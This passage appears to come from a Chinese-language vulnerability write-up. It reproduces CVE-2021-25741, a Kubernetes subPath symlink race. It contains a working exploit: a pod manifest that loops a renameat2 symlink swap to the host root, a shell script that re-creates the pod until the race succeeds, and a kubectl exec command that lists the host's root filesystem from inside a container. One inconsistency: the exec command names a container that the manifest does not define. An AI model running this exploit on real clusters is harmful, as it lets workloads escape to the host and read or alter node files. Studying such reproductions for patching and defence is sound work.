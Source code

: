    多次重复使用exp.yaml创建pod `kubectl apply -f exp.yaml`

   ````yaml
   apiVersion: v1
   kind: Pod
   metadata:
     name: cve202125741
   spec:
     containers:
     - name: prep-container
       image: ubuntu
       command: ["/bin/sh", "-ec", "mkdir /mnt/data/testpath2; ln -s / /mnt/data/testpath1; while true; do ./renameat2 -e /mnt/data/testpath2 /mnt/data/testpath1; done"]
       volumeMounts:
       - name: my-volume
         mountPath: /mnt/data
     - name: my-container
       image: ubuntu
       command: ["/bin/sh", "-ec", "ls /mnt/data; sleep 999999"]
       volumeMounts:
       - mountPath: /mnt/data
         name: my-volume
         subPath: testpath2
     volumes:
     - name: my-volume
       emptyDir: {}
   ````
   
   由于漏洞原理为竞态条件，所以需要多次重复创建等待成功，使用shell编写自动化脚本。

   ````shell
#!/bin/sh
   
   while [ 1 -lt 2 ]
   do
           kubectl apply -f exp.yaml;
           sleep 10; 
           listing=$(kubectl logs cve202125741 my-container);
           if [ "$listing" = "" ];
           then
                   echo 'fail.';
                   kubectl delete -f exp.yaml;
           else
                   echo $listing;
                   echo 'Success!';
                   exit;
           fi
   done
   ````
   
   运行exp.sh后等待成功，发现可以顺利运行容器，此时容器内/mnt/data/目录即为宿主机的根目录
   
   `kubectl exec -i -t cve202125741 -c mount-container -- ls /mnt/data`

### 漏洞分析
